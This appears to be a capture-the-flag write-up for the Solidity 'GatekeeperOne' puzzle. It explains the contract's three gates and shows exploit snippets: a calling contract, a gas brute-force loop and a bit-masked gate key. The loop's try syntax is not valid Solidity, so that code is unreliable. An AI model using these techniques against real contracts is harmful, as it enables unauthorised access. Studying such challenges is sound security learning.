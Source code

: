 # GatekeeperOne

The GatekeeperOne contract has three gates that we need to pass to solve the challenge. Each gate has a different requirement. Let's take a look at the contract:

```solidity
contract GatekeeperOne {
    using SafeMath for uint256;
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft().mod(8191) == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

# First gate

The first gate checks that msg.sender is not equal to tx.origin. In Ethereum, msg.sender is the address of the entity currently executing the contract, while tx.origin is the address that originally initiated the transaction. To pass this gate, we need to call the enter function from another contract, not directly from an Externally Owned Account, or EOA.

// In our exploit contract, we call the enter function of the GatekeeperOne contract

```solidity
function attack(bytes8 gateKey, uint256 gasToUse) external payable {
    challenge.enter{gas: gasToUse}(gateKey);
}
```

# Second gate

The second gate checks that the remaining gas is a multiple of 8191. This is tricky because the gas left changes as the contract executes. To pass this gate, we need to brute force the gas amount until we find a value that makes gasleft().mod(8191) equal to 0.

```solidity
// In our exploit contract, we brute force the gas amount
for (uint256 i = 0; i <= 8191; i++) {
    try {
        victim.enter{gas: 800000 + i}(gateKey) {
            console.log("passed with gas ->", 800000 + i);
            break;
        }
    } catch {}
}
```

# Third gate

The third gate involves type casting and bitwise operations. It checks that the least significant 16 bits of \_gateKey are equal to the least significant 32 bits, but that \_gateKey is not equal to the least significant 32 bits. It also checks that the least significant 32 bits of \_gateKey are equal to the least significant 16 bits of tx.origin. To pass this gate, we need to carefully choose a \_gateKey value that satisfies all these conditions.

```solidity
// In our exploit contract, we calculate the gateKey
bytes8 key = bytes8(uint64(uint160(address(player)))) & 0xFFFFFFFF0000FFFF;
```

By passing all three gates, we can successfully call the enter function and solve the challenge.

```solidity
function attack(bytes8 gateKey, uint256 gasToUse) external payable {
        challenge.enter{gas: gasToUse}(gateKey);
    }
```
